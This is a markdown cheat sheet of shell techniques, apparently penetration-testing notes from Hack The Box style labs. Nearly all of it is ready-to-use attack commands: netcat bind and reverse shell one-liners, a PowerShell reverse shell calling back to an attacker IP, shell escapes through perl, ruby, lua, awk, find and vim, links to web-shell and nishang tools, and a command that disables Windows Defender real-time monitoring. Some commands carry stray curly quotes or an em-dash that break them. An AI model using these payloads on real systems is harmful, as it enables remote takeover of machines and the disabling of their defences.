 # Listeners

## Start a Listener using Netcat (nc)

```
nc -lvnp <PORT>
```
# Bind Shells

## **Establishing a Basic Bind Shell with Netcat**

#### Server
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <LISTEN_IP> <LISTEN_PORT> > /tmp/f
```
#### Client
```
nc -nv <SERVER_IP> <LISTEN_PORT>
```

# Reverse Shell

#### Source

[PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
## **Netcat/Bash Reverse Shell One-liner**

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
## **Establishing a Basic Reverse Shell with Powershell**

#### Client (Target)

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()”
```

#### Server (Attack Box)

```
sudo nc -lvnp 443
```

## Using **Invoke-PowerShellTcp.ps1**

[Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
# Interactive Shells

## Interactive sh

```
/bin/sh -i
```
## Perl

**Running on CLI**

```
perl —e 'exec "/bin/sh";’
```

**Running on Script**

```
echo 'exec "/bin/sh";' > shell.pl

---------------

perl shell.pl
```
## **Ruby**

**Running on Script**

```
echo 'exec "/bin/sh";' > shell.rb

---------------

ruby shell.rb
```
## **Lua**

**Running  on Script**

```
echo 'os.execute('/bin/sh')' > shell.lua

--------------

lua shell.lua
```
## AWK

```
awk 'BEGIN {system("/bin/sh")}’
```

## Find

```
echo ‘anything’ > anythingFile
find / -name anythingFile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
### Using exec

```
find . -exec /bin/sh \; -quit
```

## **VIM**

```
vim -c ':!/bin/sh’
```
### Vim Escape

```
vim
:set shell=/bin/sh
:shell
```

# Web Shells

[Web-Shells - laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
# AV Detection

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
  + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

## Disable AV

## **PowerShell console (admin):**

```
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```
